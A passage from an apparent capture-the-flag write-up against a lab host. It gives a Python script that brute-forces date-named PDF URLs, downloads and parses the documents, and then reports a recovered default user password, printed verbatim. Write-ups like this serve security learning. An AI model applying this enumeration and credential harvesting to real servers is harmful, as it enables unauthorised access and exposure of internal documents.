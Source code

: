 ```python
        days = ["01","02","03","04","05","06","07","08","09","10","11","12","13","14","15","16","17","18","19","20","21","22","23","24","25","26","27","28","29","30","31"]
        target_url = self.host + year + "-" + "$$" + "-" + "!!" + "-upload.pdf"
        for month in months:
            month_url = target_url.replace("$$",month)
            for day in days:
                final_url = month_url.replace("!!",day)
                response = requests.head(final_url)
                if response.status_code != 404:
                    self.good_urls.append(final_url)
                    print(final_url)
                    return

    def parse_pdf(self):
        print("Attempting to download and parse!")
        for url in self.good_urls:
            file_name = url.split("/documents/")[1]
            with requests.get(url,stream=True) as s:
                with open(file_name,"wb") as f:
                    for chunk in s.iter_content(chunk_size=512 * 1024):
                        f.write(chunk)
            print(f"PARSING PDF -> {file_name}")
            with open(file_name,"rb") as f:
                reader = PdfFileReader(f)
                contents = reader.getPage(0).extractText().split("\n")
                [print(x) for x in contents]
            try:
                os.remove(file_name)
                print(f"DONE! Deleting File! -> {file_name}")
            except Exception as e:
                print(e)
                print(f"Failed to delete file -> {file_name}")
    def print(self):
        for url in self.good_urls:
            print(url)

if __name__ == "__main__":
    bfd = BruteForceDirs("10.10.10.248","80")
    years = ["2020","2021"]
    for year in years:
        bfd.spam(year)
    bfd.print()
    bfd.parse_pdf()
```
After piping the output using `tee` and skimming over it, i found two interesting documents. One contains the default password given to new users joining the company -> NewIntelligenceCorpUser9876 <- . And one seems to be an internal document stating that a script is running to check if web servers go down and that service accounts are being locked down. (Probably due to a recent breach)

![image](https://user-images.githubusercontent.com/42878263/131618262-9548c90c-0580-4ae7-8967-f484baee92d9.png)
